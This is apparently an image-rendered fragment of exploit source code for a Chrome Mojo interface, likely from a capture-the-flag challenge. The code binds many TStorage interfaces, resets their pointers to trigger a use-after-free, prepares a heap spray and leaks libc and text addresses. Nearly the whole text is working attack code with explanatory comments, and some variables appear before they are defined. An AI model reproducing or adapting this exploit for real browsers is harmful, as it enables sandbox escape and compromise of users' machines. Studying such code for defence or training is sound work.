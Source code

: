 ```html
            A = [];
            B = [];
            C = [];
            
            // B[i] will create lots of TInstance, and push it to A[i]
            // B[i]'s TStorage will correspond to A[i]
            for(let i=0;i<0x100;i++){
                B.push(null);
                B[i] = new blink.mojom.TStoragePtr();
                Mojo.bindInterface(blink.mojom.TStorage.name, mojo.makeRequest(B[i]).handle);
                await B[i].init();

                function tiptrOK2(result) {
                    A.push(result.instance);
                }
                await B[i].createInstance().then(tiptrOK2, ERROR);
            }
	    
            // C[i] stores TInstance
            // Later we'll use C[i].push(value) to spray the heap
            for(let i=0;i<0x100;i++){
                let tsptr2 = new blink.mojom.TStoragePtr();
                Mojo.bindInterface(blink.mojom.TStorage.name, mojo.makeRequest(tsptr2).handle);
                await tsptr2.init();

                function tiptrOK2(result) {
                    C.push(result.instance);
                }
                await tsptr2.createInstance().then(tiptrOK2, ERROR);
            }

            // Triggering UAF
            // Now every inner_db_ptr_ in A[i] are all dangling pointers
            for(let i=0;i<0x100;i++){
                await B[i].ptr.reset();
            }

            var libc = null;
            var text = null;
            // callback for getLibcAddress
            function libcOK(result) {
                libc = result.addr;
            }
            function ERROR(error) {
                print(error.toString());
            }
            // callback for getTextAddress
            function textOK(result) {
                text = result.addr;
            }

            // get libc & text address
            await tsptr.getLibcAddress().then(libcOK, ERROR);
            print("libc: "+hex(libc));
            await tsptr.getTextAddress().then(textOK, ERROR);
            print("text: "+hex(text));

            // create TInstance ( tiptr )
            var tiptr = null;
            function tiptrOK(result) {
                tiptr = result.instance;
            }    
            await tsptr.createInstance().then(tiptrOK, ERROR);
```